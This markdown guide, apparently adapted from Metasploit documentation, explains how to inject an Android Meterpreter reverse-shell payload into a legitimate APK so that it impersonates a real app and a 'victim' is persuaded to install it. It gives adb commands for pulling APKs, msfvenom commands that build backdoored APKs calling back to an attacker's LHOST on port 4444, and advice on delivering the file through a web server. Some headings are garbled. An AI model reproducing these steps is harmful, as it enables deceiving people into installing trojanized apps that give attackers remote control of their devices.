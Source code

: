 You can inject the Android Meterpreter into an existing APK using msfvenom. This
will allow you to impersonate an existing application, which may make it easier 
to convince your victim to install the APK.

## Vulnerable An Existing Application

It should be possible to inject Meterpreter into any APK, however some applications
have complex resource structures which may not work with `apktool`.
Additionally some applications have security measures that prevent the application
from working as expected once it has been modified.

## Create Default Metasploit Android Application

It is preferred to use an existing application, however if you don't want to use existing
application. You can Create default metasploit android application.

**Finding APKs**

There are many websites that provide standalone APK that can be downloaded, e.g:
APKPure, APKMirror, RAW APK.
You can also build a simple application yourself with Android Studio.

Additionally you can pull APKs from a device connected via ADB:

```
$ adb shell pm list packages | grep app
package:com.existing.app
$ adb shell pm path com.existing.app
package:/data/app/com.existing.app-1/base.apk
$ adb pull /data/app/com.existing.app-1/base.apk com.existing.apk
[100%] /data/app/com.existing.app-1/base.apk
```

## Requirements
 
APK Injection (as opposed to generating a single APK payload) requires a few tools
to be present on your command line already:

* [Java](https://www.oracle.com/java/technologies/downloads/) - Used for building/editing APK
* [Apktool](https://ibotpeaches.github.io/Apktool/) - Used for rebuilding the APK
* [keytool](https://docs.oracle.com/javase/8/docs/technotes/tools/unix/keytool.html) - To create and extract signing certificates
* [jarsigner](https://docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html) - To re-sign the APK

Installing these tools (if they are not installed already) will depend on your OS.
Apktool can be installed manually or automatically (e.g `brew install apktool` OR 'apt install apktool').
keytool and jarsigner can be installed by installing the appropriate JDK.

## To Create Vulnerable apk An Existing Application

Use:

```
./msfvenom -p android/meterpreter/reverse_tcp -x com.existing.apk LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

## To Create Default Metasploit Vulnerable apk

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```
## Sending apk to other Devices:

There are many method to send APK to victim;s device but one of best method is using apache web server.
Based on your Operating System Installation of apache is [discribed here](https://www.apachefriends.org/index.html). 

Next, start an Android device. Upload the APK, execute it and run it, as you would with
a [normal Android meterpreter APK](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/reverse_tcp.md).


